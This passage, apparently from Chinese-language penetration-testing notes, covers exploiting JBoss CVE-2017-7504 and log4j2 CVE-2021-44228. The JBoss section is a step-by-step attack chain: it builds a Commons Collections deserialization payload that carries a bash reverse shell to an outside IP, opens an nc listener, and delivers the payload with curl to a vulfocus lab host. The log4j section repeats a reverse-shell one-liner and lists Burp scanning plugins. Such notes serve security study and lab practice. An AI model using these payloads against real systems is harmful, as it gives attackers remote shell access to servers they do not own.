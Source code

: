 #### CVE-2017-7504

* 影响版本
  * Red Hat JBoss Application Server <=4.x
* 漏洞详情
  * Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。
* 漏洞利用

1. 编译并生成序列化数据

```bash
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
```

1. 设置反弹ip与端口

```bash
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "sh -i >& /dev/tcp/1.117.51.253/7777 0>&1"
```

1. 服务器监听

```bash
nc -lvnp 7777
```

1. 发送数据包

```bash
curl http://vulfocus.fofa.so:33463/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

* 参考文章
  * https://github.com/fofapro/vulfocus/blob/master/writeup/CVE-2017-7504/CVE-2017-7504.md
  * https://github.com/joaomatosf/JavaDeserH2HC

### Apache

#### Apache-log4j2

Apache Log4j2 是一个基于 Java 的日志记录工具。该工具重写了 Log4j 框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。在大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。攻击者利用此特性可通过该漏洞构造特殊的数据请求包，最终触发远程代码执行。

探测工具bp插件：

* https://github.com/pochubs/Log4j2Scan-1
* https://github.com/f0ng/log4j2burpscanner

探测用burpsuite scan自动扫描 Dashboard可看见结果Issue activity。

**CVE-2021-44228-log4j2-rce漏洞**

Log4j2反弹shell

影响版本：all log4j-core versions >=2.0-beta9 and <=2.14.1

sh -i >& /dev/tcp/10.30.1.49/7777 0>&1
